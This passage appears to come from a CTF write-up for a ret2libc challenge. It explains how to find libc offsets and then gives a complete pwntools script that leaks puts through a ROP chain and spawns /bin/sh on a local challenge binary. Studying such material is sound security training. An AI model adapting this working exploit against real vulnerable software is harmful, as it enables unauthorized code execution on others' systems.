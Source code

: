 
#### Finding addresses
To find libc base address:

libc addr = `puts@libc` leak - offset of `puts`

for the rest of the functions, we can just use the base address and add their relative offset

function = libc addr + offset of function


#### Now we have everything, how do we put it together?
Since our current script just returns back to main, we can perform another ROP chain to execute a shell this time.

`padding + pop rdi + /bin/sh + system`

With that, let's put everything together.

```py
from pwn import *

# setup the binary
elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

p = process("./chall_patched")
context.binary = elf


# leaking puts@libc
payload = b'A' * 72 # padding
payload += p64(0x400653) # pop rdi ; ret
payload += p64(0x601018) # puts@GOT into the function argument
payload += p64(0x400490) # puts@plt
payload += p64(0x4005a7) # return to main so we can see output
p.sendline(payload) 

# puts@libc leak
p.recvuntil("make it!\n")
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("puts@libc leak address: " + hex(leak))

# look for offsets
# objdump -T libc.so.6 | grep -E "(system$|puts$)"
libc_puts_offset = 0x87bd0
libc_system_offset = 0x58740

# strings -t x libc.so.6 | grep "/bin/sh"
sh_offset = 0x1cb42f


# calculate for libc base address first
# then calculate for system address and /bin/sh address
libcbase = leak - libc_puts_offset
system = libcbase + libc_system_offset
sh = libcbase + sh_offset

payload2 = b'A' * 72 # padding again
payload2 += p64(0x400653) # pop rdi ; ret
payload2 += p64(sh) # shell as argument
payload2 += p64(system) # system calls shell: system(/bin/sh)

# final
p.sendline(payload2)
p.interactive()
```